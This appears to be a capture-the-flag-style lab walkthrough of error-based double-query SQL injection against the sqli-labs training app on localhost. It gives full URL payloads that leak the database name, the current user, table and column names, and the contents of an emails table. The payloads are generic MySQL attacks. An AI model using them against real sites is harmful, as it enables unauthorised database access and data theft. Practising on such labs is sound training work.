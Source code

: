 ﻿We start by testing the ID parameter in with a numeric value, thereby we add **?id=1** Now here we run into an error "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '**'1” LIMIT 0,1'** at line 1’ thereby we make a few changes in the id parameter " ?id=-’.

**PAYLOAD**:”localhost/sqli/Less-6/?id=1' --+”

![](Aspose.Words.649ec1a0-113a-44f0-b082-9317baf426de.001.jpeg)

We are greeted with a page that says **“You are in……….”**, but no matter how you change or variate the payload or the query the page remains the same.

We run through the following queries expecting changes:

1.“localhost/sqli/Less-6/?id=1' union all select 1,2,3” 2.“localhost/sqli/Less-6/?id=1' order by 3”

The page remains unchanged.

![](Aspose.Words.649ec1a0-113a-44f0-b082-9317baf426de.002.jpeg)

Now we proceed by applying a double query type injection in which we will be using an “AND operator to inject our payload through the URL.

**PAYLOAD:**”localhost/sqli/Less-5/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select database()),0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) --+”

Here we are basically using the second query as the base query and the first query as an injection payload.

In the second part of the query or the part after **AND “(select database())”** this is considered as the core part of the query.

Here the letter “**b”** at the end is the derived table alias in the payload.

![](Aspose.Words.649ec1a0-113a-44f0-b082-9317baf426de.003.jpeg)We finally get the error message on the page, which shows us the current database in use. Which in this case is **“security”**

Using the above method we will also be able to find the current user and the version by changing the payload.

**PAYLOAD:**“localhost/sqli/Less-6/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select current\_user()),0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) --+”

Now we will proceed by finding the name of the tables tahat are present in the database “security”, similar to the las lesson we have the same tables in the current lesson.

![](Aspose.Words.649ec1a0-113a-44f0-b082-9317baf426de.004.jpeg)

![](Aspose.Words.649ec1a0-113a-44f0-b082-9317baf426de.005.jpeg)

![](Aspose.Words.649ec1a0-113a-44f0-b082-9317baf426de.006.jpeg)

By doing a small modification in the payload we will be able to find out the tables and their respective table names:

Hereby just changing the limit or iterating over the limit function of the payload, we will be able to find the different tables that are present in the datable namely:

1.emails

**PAYLOAD:**localhost/sqli/Less-6/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select table\_name from information\_schema.tables where table\_schema=database()**limit 0,1)**,0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) –+”

1.referers

**PAYLOAD:**“localhost/sqli/Less-6/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select table\_name from information\_schema.tables where table\_schema=database()**limit 1,1)**,0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) –+”

3.uagents

**PAYLOAD:**“localhost/sqli/Less-6/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select table\_name from information\_schema.tables where table\_schema=database()**limit 2,1),**0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) –+”

4.users

**PAYLOAD:**localhost/sqli/Less-6/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select table\_name from information\_schema.tables where table\_schema=database()**limit 3,1)**,0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) –+”

Now using the table “emails” lets dump the column name and the data from the table.

![](Aspose.Words.649ec1a0-113a-44f0-b082-9317baf426de.007.jpeg)

![](Aspose.Words.649ec1a0-113a-44f0-b082-9317baf426de.008.jpeg)

we can also dump the columns in a similar manner by using the following payload, previously we also found out that we have only 2 columns in our table(emails).

**PAYLOAD:** “localhost/sqli/Less-5/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select column\_name from information\_schema.columns where table\_name=”emails”limit 0,1),0x3a,0x3a, round(rand()\*2,1))a from information\_schema.tables group by a)b) –+”

Here we run this payload we get our first column which is “id” and if we change the limit and the name of the table in the quotes we will be able to find the various columns that are present in the table.



|**ID**|**EMAIL\_ID**|
| - | - |
|1|Dumb@dhakkan.com|
|2|Angel@iloveu.com|
|3|Dummy@dhakkan.com|
|4|secure@dhakkan.com|


|5|stupid@dhakkan.com|
| - | - |
|6|superman@dhakkan.com|
|7|batman@dhakkan.com|
|8|admin@dhakkan.com|

